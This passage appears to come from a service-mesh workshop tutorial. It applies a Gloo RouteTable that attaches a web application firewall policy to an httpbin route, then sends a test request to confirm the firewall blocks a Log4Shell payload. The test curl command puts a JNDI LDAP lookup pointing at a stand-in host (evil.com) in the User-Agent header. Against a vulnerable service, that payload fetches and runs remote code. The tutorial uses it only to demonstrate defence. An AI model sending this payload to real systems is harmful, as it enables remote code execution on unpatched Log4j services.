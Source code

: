 Next, you need to update the httpbin `RouteTable` to use this `WAFPolicy`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
        waf: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /anything
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k https://${ENDPOINT_HTTPS_GW_MGMT}/get -i
```

The request should be rejected:
```
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```
